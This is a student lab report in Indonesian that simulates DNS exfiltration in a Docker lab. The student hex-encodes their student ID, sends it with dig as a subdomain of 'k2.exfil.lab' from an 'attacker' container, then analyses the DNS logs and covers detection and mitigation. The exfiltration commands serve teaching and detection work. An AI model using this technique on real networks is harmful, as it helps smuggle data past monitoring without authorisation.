

# TUGAS 7 (PERTEMUAN 7)
# DNS EXFILTRATION — KASUS 2 (K2)

## IDENTITAS DAN PARAMETER LAB

| Keterangan | Informasi |
|---|---|
| Nama | Insanul Firas |
| NIM | 24552011147 |
| Mata Kuliah | Keamanan Jaringan (Security Network) |
| Pertemuan | Pertemuan 7 |
| Tugas | DNS Exfiltration |
| Kasus | Kasus 2 (`k2`) |
| Sistem Operasi Host | Windows |
| Terminal | Windows PowerShell |
| Lingkungan Pengujian | Docker Desktop |
| Docker Compose Project | `k2` |
| Docker Image | `uts-kali-tools` |
| DNS Service | `dns` |
| Attacker Service | `attacker` |
| Domain Pengujian | `k2.exfil.lab` |
| Tools | Docker Compose, dig, xxd, Python |
| Script Analisis | `analisis_dns.py` |

---

# 1. PENDAHULUAN

## 1.1 Tujuan Praktikum

Praktikum ini bertujuan untuk memahami mekanisme DNS Exfiltration, yaitu salah satu teknik penyalahgunaan protokol Domain Name System (DNS) untuk mengirimkan atau menyelundupkan informasi melalui permintaan DNS.

Dalam komunikasi jaringan normal, DNS digunakan untuk menerjemahkan nama domain menjadi alamat IP agar perangkat dapat menemukan server tujuan.

Namun, protokol DNS juga dapat disalahgunakan untuk membawa informasi tertentu di dalam bagian nama domain atau DNS query.

Pada praktikum ini, dilakukan simulasi pengiriman informasi berupa Nomor Induk Mahasiswa (NIM) melalui DNS query dengan cara mengubah data asli menjadi format hexadecimal terlebih dahulu.

Data hexadecimal tersebut kemudian ditempatkan sebagai label subdomain pada domain pengujian `k2.exfil.lab`.

Selanjutnya, DNS server menerima permintaan tersebut dan mencatat query yang masuk ke dalam log. Log tersebut kemudian dianalisis menggunakan script Python untuk mengidentifikasi pola permintaan DNS yang mencurigakan.

Tahap terakhir dilakukan dengan mengembalikan data hexadecimal menjadi teks asli menggunakan perintah `xxd`.

Adapun tujuan khusus praktikum ini adalah:

1. Memahami fungsi DNS dalam komunikasi jaringan.
2. Memahami konsep DNS Exfiltration.
3. Mengubah informasi teks menjadi format hexadecimal menggunakan `xxd`.
4. Mengirimkan informasi melalui DNS query menggunakan `dig`.
5. Memahami bagaimana DNS server menerima dan mencatat permintaan DNS.
6. Melakukan analisis log DNS menggunakan script Python.
7. Mengidentifikasi pola DNS query yang mencurigakan berdasarkan karakteristik label domain.
8. Mengembalikan data hexadecimal menjadi teks asli.
9. Memahami potensi penyalahgunaan DNS dan mekanisme mitigasinya.

## 1.2 Konsep Dasar DNS

Domain Name System (DNS) merupakan sistem yang digunakan untuk menerjemahkan nama domain menjadi alamat IP.

Sebagai contoh, ketika pengguna mengakses suatu website menggunakan nama domain, perangkat akan melakukan permintaan DNS untuk mendapatkan alamat IP yang sesuai.

Proses tersebut memungkinkan pengguna mengakses layanan jaringan tanpa harus menghafalkan alamat IP setiap server.

Dalam komunikasi DNS, terdapat beberapa komponen penting:

- **DNS Client:** perangkat yang mengirimkan permintaan DNS.
- **DNS Server:** perangkat yang menerima dan memproses permintaan DNS.
- **DNS Query:** permintaan informasi yang dikirimkan oleh client kepada DNS server.
- **DNS Response:** jawaban yang diberikan oleh DNS server terhadap permintaan yang diterima.
- **Domain Name:** nama domain yang digunakan dalam proses pencarian informasi DNS.

DNS umumnya menggunakan port 53, baik melalui UDP maupun TCP.

Pada praktikum ini, DNS digunakan sebagai media pengiriman informasi melalui label subdomain yang telah dikonversi menjadi hexadecimal.

## 1.3 Pengertian DNS Exfiltration

DNS Exfiltration merupakan teknik pengiriman informasi keluar dari suatu sistem atau jaringan dengan memanfaatkan protokol DNS sebagai media komunikasi.

Dalam kondisi normal, DNS digunakan untuk melakukan pencarian alamat IP berdasarkan nama domain.

Namun, dalam teknik DNS Exfiltration, informasi tertentu dapat disisipkan ke dalam bagian nama domain yang dikirimkan melalui DNS query.

Sebagai contoh, suatu informasi teks dapat diubah menjadi hexadecimal, kemudian dimasukkan ke dalam label subdomain.

Bentuk query yang digunakan dalam praktikum ini adalah:

```text
3234353532303131313437.k2.exfil.lab
```

Bagian `3234353532303131313437` merupakan data hexadecimal yang mewakili informasi NIM.

Sementara itu, `k2.exfil.lab` merupakan domain pengujian yang digunakan sebagai tujuan query DNS.

Dengan cara tersebut, informasi dapat dikirimkan melalui permintaan DNS dan selanjutnya diamati melalui log DNS server.

---

# 2. PERSIAPAN LINGKUNGAN PENGUJIAN

## 2.1 Topologi Pengujian

Praktikum dilakukan menggunakan Docker Compose yang menyediakan dua service utama, yaitu DNS server dan attacker.

Kedua service tersebut digunakan untuk melakukan simulasi komunikasi DNS dalam lingkungan jaringan virtual Docker.

| Service | Peran | Fungsi |
|---|---|---|
| `dns` | DNS Server | Menerima dan mencatat permintaan DNS |
| `attacker` | Client / Pengirim | Mengirimkan DNS query menggunakan tools dig |

DNS server digunakan sebagai tujuan permintaan DNS, sedangkan attacker bertugas membentuk dan mengirimkan query yang berisi informasi hexadecimal.

Lingkungan tersebut menggunakan jaringan Docker yang dibuat secara otomatis oleh Docker Compose.

## 2.2 Struktur File Praktikum

File konfigurasi Docker Compose yang digunakan berada pada direktori:

```text
b/b4-dns-exfil/docker-compose.yml
```

Sementara itu, script analisis DNS berada pada direktori:

```text
kasus/k9-dns-detect/analisis_dns.py
```

File yang digunakan dalam praktikum ini meliputi:

| No. | Nama File | Fungsi |
|---|---|---|
| 1 | `docker-compose.yml` | Konfigurasi lingkungan DNS Exfiltration |
| 2 | `analisis_dns.py` | Script Python untuk menganalisis log DNS |
| 3 | `dns-k2.log` | File yang berisi catatan aktivitas DNS server |
| 4 | `hasil.md` | Dokumentasi hasil praktikum |
| 5 | `01.png` | Screenshot keseluruhan proses pengujian |

## 2.3 Menjalankan Lingkungan Docker Compose

Langkah pertama adalah menjalankan service DNS dan attacker menggunakan Docker Compose.

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b4-dns-exfil/docker-compose.yml up -d
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker compose` | Menjalankan perintah Docker Compose |
| `-p k2` | Menentukan nama project Docker Compose |
| `-f` | Menentukan file konfigurasi Compose |
| `b/b4-dns-exfil/docker-compose.yml` | Lokasi file konfigurasi |
| `up` | Membuat dan menjalankan service |
| `-d` | Menjalankan container di latar belakang |

Berdasarkan hasil terminal, Docker Compose berhasil menjalankan seluruh service yang dibutuhkan.

Output yang diperoleh:

```text
[+] up 3/3

✔ Network k2_lab       Created
✔ Container k2-dns-1   Started
✔ Container k2-attacker-1 Started
```

Hasil tersebut menunjukkan bahwa:

1. Network Docker `k2_lab` berhasil dibuat.
2. Container `k2-dns-1` berhasil dijalankan.
3. Container `k2-attacker-1` berhasil dijalankan.

Dengan demikian, lingkungan pengujian DNS Exfiltration telah berhasil dipersiapkan.

---

# 3. KONVERSI DATA NIM MENJADI HEXADECIMAL

## 3.1 Tujuan

Sebelum mengirimkan informasi melalui DNS query, data NIM terlebih dahulu diubah menjadi format hexadecimal.

Hexadecimal merupakan sistem bilangan berbasis 16 yang menggunakan angka 0–9 dan huruf A–F.

Format ini dapat digunakan untuk merepresentasikan data dalam bentuk karakter yang sesuai untuk dimasukkan ke dalam label DNS.

Pada praktikum ini, informasi yang digunakan adalah NIM:

```text
24552011147
```

Informasi tersebut kemudian dikonversi menggunakan tools `xxd`.

## 3.2 Perintah Konversi

Perintah yang digunakan:

```powershell
docker run --rm uts-kali-tools sh -c "echo -n 24552011147 | xxd -p"
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker run` | Menjalankan container Docker sementara |
| `--rm` | Menghapus container setelah proses selesai |
| `uts-kali-tools` | Docker Image yang menyediakan tools pengujian |
| `sh -c` | Menjalankan perintah shell |
| `echo -n` | Menampilkan teks tanpa menambahkan karakter newline |
| `24552011147` | Data NIM yang akan dikonversi |
| `xxd -p` | Mengubah data menjadi representasi hexadecimal |

Penggunaan `echo -n` penting karena mencegah penambahan karakter newline pada akhir data yang akan dikonversi.

Dengan demikian, hasil hexadecimal hanya merepresentasikan karakter NIM yang dimasukkan.

## 3.3 Hasil Konversi

Berdasarkan hasil pengujian, diperoleh:

```text
NIM Asli:
24552011147

Hexadecimal:
3234353532303131313437
```

Hasil konversi tersebut merupakan representasi hexadecimal dari setiap karakter dalam NIM.

Rinciannya adalah:

| Karakter | Kode ASCII Hexadecimal |
|---|---|
| 2 | `32` |
| 4 | `34` |
| 5 | `35` |
| 5 | `35` |
| 2 | `32` |
| 0 | `30` |
| 1 | `31` |
| 1 | `31` |
| 1 | `31` |
| 4 | `34` |
| 7 | `37` |

Apabila seluruh nilai hexadecimal digabungkan, diperoleh:

```text
3234353532303131313437
```

Dengan demikian, data NIM berhasil diubah menjadi format hexadecimal dan siap digunakan sebagai label subdomain pada DNS query.

---

# 4. PENGIRIMAN INFORMASI MELALUI DNS QUERY

## 4.1 Tujuan

Tahap berikutnya adalah mengirimkan informasi hexadecimal melalui DNS query menuju DNS server yang telah dijalankan sebelumnya.

Pada tahap ini, data hexadecimal ditempatkan pada bagian label subdomain dari domain pengujian.

Teknik tersebut digunakan untuk memperlihatkan bagaimana informasi dapat dibawa melalui permintaan DNS.

## 4.2 Struktur DNS Query

Format DNS query yang digunakan adalah:

```text
3234353532303131313437.k2.exfil.lab
```

Struktur domain tersebut dapat dijelaskan sebagai berikut:

| Bagian | Nilai | Fungsi |
|---|---|---|
| Label Data | `3234353532303131313437` | Menyimpan informasi NIM dalam hexadecimal |
| Subdomain | `k2` | Identitas kasus pengujian |
| Domain | `exfil.lab` | Domain pengujian DNS Exfiltration |
| DNS Server | `dns` | Server tujuan permintaan DNS |

Bagian label pertama merupakan informasi yang dikirimkan.

Sementara itu, bagian domain digunakan untuk mengarahkan query menuju domain pengujian yang telah dikonfigurasi pada lingkungan Docker.

## 4.3 Perintah Pengiriman DNS Query

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131313437.k2.exfil.lab @dns
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker compose` | Menjalankan perintah melalui Docker Compose |
| `-p k2` | Menggunakan project Docker Compose `k2` |
| `-f` | Menentukan file konfigurasi |
| `exec attacker` | Menjalankan perintah pada container attacker |
| `dig` | Tools untuk melakukan DNS query |
| `+short` | Menampilkan hasil DNS secara ringkas |
| `3234353532303131313437.k2.exfil.lab` | Nama domain yang membawa data hexadecimal |
| `@dns` | Menentukan DNS server tujuan berdasarkan nama service |

Melalui perintah tersebut, attacker mengirimkan permintaan DNS kepada service `dns`.

Data hexadecimal dimasukkan ke dalam label pertama domain sehingga dapat diamati sebagai bagian dari aktivitas query DNS.

## 4.4 Hasil Pengiriman DNS Query

Berdasarkan perintah yang dijalankan pada terminal, DNS query menggunakan label hexadecimal berikut:

```text
3234353532303131313437.k2.exfil.lab
```

Permintaan tersebut dikirimkan melalui service attacker dengan menggunakan DNS server `dns`.

Perintah `dig +short` digunakan agar hasil respons DNS ditampilkan secara ringkas.

Pada screenshot, tidak terlihat nilai jawaban DNS yang tercetak setelah perintah tersebut. Oleh karena itu, hasil utama yang didokumentasikan pada tahap ini adalah pelaksanaan query dengan label hexadecimal yang telah ditentukan, bukan klaim mengenai alamat IP hasil resolusi.

Hal yang menjadi perhatian utama adalah keberadaan informasi hexadecimal pada bagian nama domain yang dikirimkan melalui DNS query.

---

# 5. PENGAMBILAN DAN ANALISIS LOG DNS

## 5.1 Tujuan

Setelah DNS query dikirimkan, tahap berikutnya adalah mengambil log aktivitas DNS server.

Log DNS merupakan catatan aktivitas yang dapat digunakan untuk mengetahui permintaan DNS yang diterima oleh server.

Melalui log tersebut, administrator dapat melakukan pemeriksaan terhadap pola query yang tidak biasa, termasuk penggunaan label subdomain yang panjang dan berisi karakter hexadecimal.

Pada praktikum ini, log DNS disimpan ke dalam file `dns-k2.log`.

Selanjutnya, file tersebut dianalisis menggunakan script Python yang telah disediakan.

## 5.2 Mengambil Log DNS

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b4-dns-exfil/docker-compose.yml logs dns | Set-Content -Path dns-k2.log -Encoding UTF8
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker compose` | Menjalankan perintah Docker Compose |
| `-p k2` | Menentukan project pengujian |
| `-f` | Menentukan file konfigurasi |
| `logs dns` | Mengambil log dari service DNS |
| `|` | Meneruskan output ke perintah berikutnya |
| `Set-Content` | Menyimpan output ke dalam file |
| `-Path dns-k2.log` | Menentukan nama file log |
| `-Encoding UTF8` | Menyimpan file menggunakan encoding UTF-8 |

Perintah tersebut mengambil catatan aktivitas DNS server dan menyimpannya ke dalam file `dns-k2.log`.

File ini kemudian digunakan sebagai sumber data dalam proses analisis.

## 5.3 Analisis Log Menggunakan Python

Setelah file log berhasil disimpan, tahap selanjutnya adalah menjalankan script analisis DNS.

Perintah yang digunakan:

```powershell
docker run --rm -w /work -v "${PWD}:/work" uts-kali-tools python3 kasus/k9-dns-detect/analisis_dns.py dns-k2.log
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker run` | Menjalankan container sementara |
| `--rm` | Menghapus container setelah proses selesai |
| `-w /work` | Menentukan direktori kerja dalam container |
| `-v "${PWD}:/work"` | Menghubungkan direktori kerja host ke container |
| `uts-kali-tools` | Docker Image yang digunakan |
| `python3` | Menjalankan interpreter Python |
| `kasus/k9-dns-detect/analisis_dns.py` | Script untuk menganalisis aktivitas DNS |
| `dns-k2.log` | File log yang akan dianalisis |

Script Python digunakan untuk membaca catatan DNS dan mengelompokkan aktivitas query berdasarkan domain induk.

Selain itu, script juga melakukan pemeriksaan terhadap pola query yang mencurigakan, khususnya label domain yang panjang dan berisi karakter hexadecimal.

## 5.4 Hasil Analisis DNS

Berdasarkan screenshot, script analisis berhasil dijalankan dan menampilkan bagian informasi berikut:

```text
Jumlah query per domain induk:

Query mencurigakan (label panjang berisi hex):
```

Output tersebut menunjukkan bahwa script menjalankan dua bagian pemeriksaan utama:

**1. Jumlah Query per Domain Induk**

Bagian ini digunakan untuk mengelompokkan permintaan DNS berdasarkan domain induk yang ditemukan dalam log.

Pengelompokan tersebut dapat membantu administrator mengetahui domain mana yang paling sering menerima permintaan DNS.

**2. Query Mencurigakan (Label Panjang Berisi Hex)**

Bagian ini digunakan untuk memeriksa query DNS yang memiliki karakteristik tertentu, yaitu label subdomain yang panjang dan berisi karakter hexadecimal.

Pola tersebut relevan dengan teknik DNS Exfiltration karena data dapat diubah menjadi hexadecimal sebelum dimasukkan ke dalam nama domain.

Pada screenshot yang tersedia, bagian hasil kedua kategori tersebut ditampilkan tanpa baris data yang terlihat di bawahnya.

Dengan demikian, screenshot membuktikan bahwa script analisis telah dijalankan, tetapi belum memperlihatkan secara eksplisit baris query yang teridentifikasi sebagai mencurigakan.

---

# 6. DEKODE DATA HEXADECIMAL MENJADI TEKS ASLI

## 6.1 Tujuan

Setelah data dikirimkan melalui DNS query dan proses analisis log dilakukan, tahap terakhir adalah mengembalikan data hexadecimal menjadi teks asli.

Proses ini disebut decoding.

Decoding dilakukan untuk membuktikan bahwa informasi yang sebelumnya diubah menjadi hexadecimal masih dapat dikembalikan ke bentuk teks semula.

Pada praktikum ini, data yang digunakan merupakan NIM dengan nilai:

```text
3234353532303131313437
```

## 6.2 Perintah Dekode

Perintah yang digunakan:

```powershell
docker run --rm uts-kali-tools sh -c "echo 3234353532303131313437 | xxd -r -p; echo"
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `docker run` | Menjalankan container sementara |
| `--rm` | Menghapus container setelah proses selesai |
| `uts-kali-tools` | Docker Image yang menyediakan tools |
| `sh -c` | Menjalankan perintah shell |
| `echo` | Mengirimkan data hexadecimal ke proses berikutnya |
| `xxd -r -p` | Mengembalikan hexadecimal menjadi data asli |
| `echo` | Menambahkan newline setelah hasil decoding |

Perintah `xxd -r -p` digunakan untuk mengubah representasi hexadecimal kembali menjadi karakter aslinya.

## 6.3 Hasil Decoding

Berdasarkan hasil pengujian, diperoleh output:

```text
24552011147
```

Hasil tersebut sama dengan NIM asli yang digunakan pada awal praktikum.

Perbandingan hasil:

| Keterangan | Nilai |
|---|---|
| Data asli | `24552011147` |
| Data setelah encoding | `3234353532303131313437` |
| Data setelah decoding | `24552011147` |

Dengan demikian, proses encoding dan decoding berhasil dilakukan.

Data yang sebelumnya direpresentasikan dalam bentuk hexadecimal dapat dikembalikan ke bentuk teks aslinya tanpa perubahan karakter.

Hal ini memperlihatkan bahwa informasi yang dimasukkan ke dalam DNS query dapat direpresentasikan dan dipulihkan kembali melalui proses decoding.

---

# 7. ANALISIS DNS EXFILTRATION

## 7.1 Mekanisme Kerja DNS Exfiltration

DNS Exfiltration memanfaatkan protokol DNS sebagai media untuk membawa informasi tertentu melalui permintaan nama domain.

Secara umum, mekanisme tersebut terdiri dari beberapa tahapan.

**1. Menyiapkan Informasi**

Penyerang menentukan informasi yang akan dikirimkan.

Pada praktikum ini, informasi yang digunakan adalah NIM:

```text
24552011147
```

**2. Mengubah Data Menjadi Hexadecimal**

Informasi diubah ke format hexadecimal menggunakan perintah `xxd -p`.

Hasil konversi:

```text
3234353532303131313437
```

**3. Menyisipkan Data ke dalam DNS Query**

Data hexadecimal dimasukkan sebagai label subdomain.

Contoh:

```text
3234353532303131313437.k2.exfil.lab
```

Dengan demikian, informasi dibawa melalui nama domain yang dikirimkan kepada DNS server.

**4. Mengirimkan DNS Query**

Client mengirimkan permintaan menggunakan tools `dig` menuju DNS server yang telah disiapkan.

DNS server menerima permintaan tersebut dan dapat mencatat informasi query pada log aktivitasnya.

**5. Menganalisis Log DNS**

Log yang dihasilkan kemudian diperiksa menggunakan script Python untuk mencari pola permintaan DNS yang mencurigakan.

Salah satu karakteristik yang dapat diperhatikan adalah label subdomain yang panjang dan berisi rangkaian karakter hexadecimal.

**6. Mengembalikan Data ke Bentuk Asli**

Data hexadecimal kemudian diproses menggunakan `xxd -r -p` untuk mengembalikannya menjadi teks asli.

Pada praktikum ini, hasil decoding adalah:

```text
24552011147
```

## 7.2 Ilustrasi Alur DNS Exfiltration

Berikut merupakan ilustrasi sederhana proses pengiriman informasi melalui DNS:

```text
          INFORMASI ASLI
           24552011147
                 |
                 v
        +------------------+
        |  Encoding Hex    |
        |      xxd -p      |
        +------------------+
                 |
                 v
     3234353532303131313437
                 |
                 v
        +------------------+
        | Membentuk DNS    |
        |      Query       |
        +------------------+
                 |
                 v
3234353532303131313437.k2.exfil.lab
                 |
                 v
        +------------------+
        |   DNS Server     |
        |       dns        |
        +------------------+
                 |
                 v
           DNS Log File
           dns-k2.log
                 |
                 v
        +------------------+
        | Analisis Log DNS |
        |  Python Script   |
        +------------------+
                 |
                 v
        +------------------+
        | Hex Decoding     |
        |     xxd -r       |
        +------------------+
                 |
                 v
          24552011147
          DATA ASLI
```

Ilustrasi tersebut menunjukkan bagaimana suatu informasi dapat diubah menjadi hexadecimal, dimasukkan ke dalam DNS query, dicatat oleh DNS server, kemudian dikembalikan menjadi informasi aslinya.

## 7.3 Karakteristik DNS Exfiltration

Beberapa karakteristik yang dapat digunakan untuk mengidentifikasi kemungkinan DNS Exfiltration adalah:

1. Label subdomain yang memiliki panjang tidak biasa.
2. Penggunaan rangkaian karakter hexadecimal atau Base32 dalam nama domain.
3. Banyaknya permintaan DNS dengan pola nama domain yang berubah-ubah.
4. Penggunaan subdomain yang mengandung informasi terstruktur.
5. Frekuensi query yang tidak sesuai dengan aktivitas jaringan normal.

Namun, satu karakteristik saja tidak selalu cukup untuk memastikan terjadinya DNS Exfiltration.

Administrator perlu mempertimbangkan pola lalu lintas, frekuensi query, domain tujuan, serta konteks aktivitas perangkat.

## 7.4 Perbedaan DNS Normal dan DNS Exfiltration

| Aspek | DNS Normal | DNS Exfiltration |
|---|---|---|
| Tujuan | Mencari alamat IP domain | Membawa informasi melalui DNS query |
| Isi Query | Nama domain yang umum | Dapat berisi data yang dikodekan |
| Label Subdomain | Umumnya mudah dibaca | Dapat berisi rangkaian hexadecimal atau Base32 |
| Pola Permintaan | Sesuai aktivitas akses layanan | Dapat memiliki pola tidak biasa |
| Penggunaan | Resolusi nama domain | Komunikasi atau pengiriman data |
| Risiko Keamanan | Aktivitas jaringan normal | Potensi kebocoran informasi |

---

# 8. DAMPAK DAN MITIGASI DNS EXFILTRATION

## 8.1 Dampak DNS Exfiltration

DNS Exfiltration dapat menimbulkan risiko keamanan informasi karena memungkinkan data dikirimkan melalui jalur DNS.

Beberapa dampak yang dapat terjadi antara lain:

**1. Kebocoran Informasi**

Informasi penting yang berada pada suatu sistem dapat dikirimkan ke pihak luar melalui DNS query.

**2. Penyalahgunaan Infrastruktur DNS**

Protokol DNS yang seharusnya digunakan untuk resolusi domain dapat dimanfaatkan sebagai media komunikasi tersembunyi.

**3. Kesulitan Deteksi**

Aktivitas DNS merupakan bagian normal dari komunikasi jaringan sehingga permintaan yang mencurigakan dapat terlihat seperti query biasa apabila tidak dilakukan pemantauan secara khusus.

**4. Pengiriman Data Tanpa Izin**

Informasi internal dapat keluar dari jaringan tanpa melalui mekanisme transfer data yang biasa dipantau oleh administrator.

## 8.2 Mitigasi DNS Exfiltration

Beberapa langkah yang dapat diterapkan untuk mengurangi risiko DNS Exfiltration adalah sebagai berikut.

**1. Pemantauan Log DNS**

Administrator perlu melakukan pemantauan terhadap permintaan DNS yang diterima server.

Aktivitas yang memiliki pola tidak biasa, seperti label subdomain panjang atau karakter hexadecimal berulang, perlu diperiksa lebih lanjut.

**2. Membatasi Akses DNS**

Perangkat dalam jaringan sebaiknya hanya diperbolehkan menggunakan DNS resolver yang telah ditentukan oleh administrator.

Hal tersebut dapat membantu mengurangi penggunaan DNS server eksternal yang tidak terkontrol.

**3. Menerapkan DNS Filtering**

DNS filtering dapat digunakan untuk memblokir domain atau permintaan DNS yang terindikasi berbahaya berdasarkan kebijakan keamanan.

**4. Menerapkan Deteksi Anomali**

Administrator dapat menggunakan sistem monitoring untuk mendeteksi pola query yang tidak normal, seperti:

- Panjang label subdomain yang tidak biasa.
- Frekuensi query yang meningkat secara tidak wajar.
- Penggunaan karakter hexadecimal secara berulang.
- Banyaknya subdomain unik dalam waktu singkat.

**5. Menerapkan Kebijakan Keamanan Endpoint**

Perangkat pengguna perlu dilindungi dengan kebijakan keamanan yang membatasi program atau proses yang dapat melakukan komunikasi jaringan tanpa izin.

**6. Melakukan Pembatasan dan Audit DNS**

Administrator dapat melakukan audit berkala terhadap penggunaan DNS serta menerapkan pembatasan query sesuai kebutuhan jaringan.

---

# 9. REKAPITULASI DAN ANALISIS HASIL PRAKTIKUM

## 9.1 Rekapitulasi Tahapan Pengujian

Berdasarkan seluruh proses yang dilakukan, diperoleh rangkuman sebagai berikut:

| No. | Tahapan | Hasil |
|---|---|---|
| 1 | Menjalankan Docker Compose | Berhasil |
| 2 | Membuat network `k2_lab` | Berhasil |
| 3 | Menjalankan container DNS | Berhasil |
| 4 | Menjalankan container attacker | Berhasil |
| 5 | Konversi NIM menjadi hexadecimal | Berhasil |
| 6 | Pengiriman DNS query menggunakan dig | Perintah berhasil dijalankan |
| 7 | Pengambilan log DNS | Berhasil dijalankan |
| 8 | Analisis log menggunakan Python | Script berhasil dijalankan |
| 9 | Decoding hexadecimal | Berhasil |
| 10 | Pembersihan lingkungan Docker | Berhasil |

## 9.2 Rekapitulasi Data

Berikut merupakan data utama yang digunakan dalam praktikum:

| Parameter | Nilai |
|---|---|
| NIM asli | `24552011147` |
| Hexadecimal | `3234353532303131313437` |
| Domain pengujian | `k2.exfil.lab` |
| DNS query | `3234353532303131313437.k2.exfil.lab` |
| DNS server | `dns` |
| File log | `dns-k2.log` |
| Script analisis | `analisis_dns.py` |
| Hasil decoding | `24552011147` |

## 9.3 Analisis Keseluruhan

Berdasarkan seluruh tahapan praktikum, dapat diketahui bahwa proses simulasi DNS Exfiltration berhasil dilakukan melalui lingkungan Docker.

Tahap pertama dimulai dengan menjalankan DNS server dan attacker menggunakan Docker Compose.

Setelah lingkungan pengujian aktif, NIM dikonversi menjadi hexadecimal menggunakan perintah `xxd -p`.

Hasil konversi berupa `3234353532303131313437` kemudian digunakan sebagai label subdomain dalam DNS query menuju domain `k2.exfil.lab`.

Permintaan DNS dikirimkan menggunakan tools `dig` melalui service attacker dengan tujuan DNS server `dns`.

Selanjutnya, log DNS diambil dan disimpan ke dalam file `dns-k2.log` untuk digunakan dalam proses analisis menggunakan script Python.

Script tersebut menjalankan pemeriksaan terhadap jumlah query per domain induk serta pola query mencurigakan yang memiliki label panjang berisi hexadecimal.

Tahap terakhir dilakukan dengan mengembalikan data hexadecimal menggunakan perintah `xxd -r -p`.

Hasil decoding menghasilkan kembali NIM `24552011147`, sesuai dengan data asli yang digunakan pada awal pengujian.

Dengan demikian, praktikum ini memperlihatkan bagaimana informasi dapat direpresentasikan dalam bentuk hexadecimal dan dibawa melalui DNS query.

Hasil ini juga menunjukkan pentingnya pemantauan aktivitas DNS karena permintaan DNS yang terlihat normal secara struktur dapat dimanfaatkan untuk membawa informasi tertentu.

---

# 10. KESIMPULAN

Berdasarkan pelaksanaan Tugas 7 (Pertemuan 7) mengenai DNS Exfiltration pada Kasus 2 (`k2`), dapat disimpulkan bahwa praktikum berhasil memberikan pemahaman mengenai pemanfaatan protokol DNS sebagai media pengiriman informasi.

Pada tahap awal, lingkungan pengujian berhasil dijalankan menggunakan Docker Compose dengan dua service utama, yaitu DNS server dan attacker.

Informasi berupa NIM `24552011147` kemudian dikonversi menjadi format hexadecimal menggunakan tools `xxd`.

Hasil konversi tersebut adalah `3234353532303131313437`, yang selanjutnya digunakan sebagai label subdomain pada DNS query:

`3234353532303131313437.k2.exfil.lab`

Permintaan tersebut dikirimkan menggunakan tools `dig` menuju DNS server `dns`.

Setelah proses pengiriman, aktivitas DNS diambil melalui log server dan disimpan ke dalam file `dns-k2.log`.

File tersebut kemudian dianalisis menggunakan script Python untuk memeriksa jumlah query berdasarkan domain induk serta mengidentifikasi pola label domain yang panjang dan berisi hexadecimal.

Pada tahap akhir, data hexadecimal dikembalikan menggunakan perintah `xxd -r -p` dan menghasilkan kembali NIM `24552011147`.

Hasil tersebut menunjukkan bahwa proses encoding dan decoding berjalan sesuai dengan data yang digunakan.

Selain itu, praktikum ini memberikan pemahaman bahwa protokol DNS tidak hanya digunakan untuk menerjemahkan nama domain menjadi alamat IP, tetapi juga dapat disalahgunakan sebagai media pengiriman informasi.

Oleh karena itu, administrator jaringan perlu menerapkan pemantauan log DNS, DNS filtering, pembatasan akses DNS, serta deteksi anomali untuk mengurangi risiko kebocoran informasi melalui DNS.

Secara keseluruhan, praktikum ini memberikan pemahaman mengenai mekanisme DNS Exfiltration, penggunaan hexadecimal dalam DNS query, analisis log menggunakan Python, serta pentingnya pengamanan infrastruktur DNS dalam menjaga kerahasiaan informasi.

---

# 11. PEMBERSIHAN LINGKUNGAN PRAKTIKUM

## 11.1 Tujuan

Setelah seluruh tahapan pengujian selesai dilakukan, lingkungan Docker Compose dibersihkan agar container dan jaringan virtual yang digunakan tidak terus berjalan.

Pembersihan dilakukan untuk menghindari penggunaan resource sistem yang tidak diperlukan setelah praktikum selesai.

## 11.2 Perintah Pembersihan

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b4-dns-exfil/docker-compose.yml down -v
```

Penjelasan parameter:

- `docker compose`: menjalankan perintah Docker Compose.
- `-p k2`: menentukan project Docker Compose yang akan dibersihkan.
- `-f`: menentukan file konfigurasi Compose.
- `down`: menghentikan dan menghapus container serta jaringan project.
- `-v`: menghapus volume yang terkait dengan project.

## 11.3 Hasil Pembersihan

Berdasarkan output terminal, diperoleh hasil:

```text
[+] down 3/3

✔ Container k2-attacker-1 Removed
✔ Container k2-dns-1       Removed
✔ Network k2_lab           Removed
```

Hasil tersebut menunjukkan bahwa:

1. Container attacker berhasil dihapus.
2. Container DNS server berhasil dihapus.
3. Network `k2_lab` berhasil dihapus.

Dengan demikian, seluruh lingkungan pengujian Docker Compose berhasil dibersihkan setelah praktikum selesai dilakukan.

---

# 12. LAMPIRAN DAN DOKUMENTASI

## 12.1 Daftar File Praktikum

| No. | Nama File | Keterangan |
|---|---|---|
| 1 | `docker-compose.yml` | Konfigurasi lingkungan DNS Exfiltration |
| 2 | `analisis_dns.py` | Script analisis aktivitas DNS |
| 3 | `dns-k2.log` | File catatan aktivitas DNS server |
| 4 | `hasil.md` | Dokumentasi hasil praktikum |
| 5 | `01.png` | Screenshot keseluruhan proses pengujian |

## 12.2 Dokumentasi Screenshot



**Gambar 1.** Dokumentasi keseluruhan proses praktikum DNS Exfiltration menggunakan Docker Compose. Screenshot memperlihatkan proses pembuatan network dan menjalankan container DNS serta attacker, konversi NIM menjadi hexadecimal, pengiriman DNS query menggunakan dig, pengambilan dan analisis log DNS menggunakan Python, proses decoding hexadecimal menjadi NIM asli, serta pembersihan lingkungan Docker Compose.
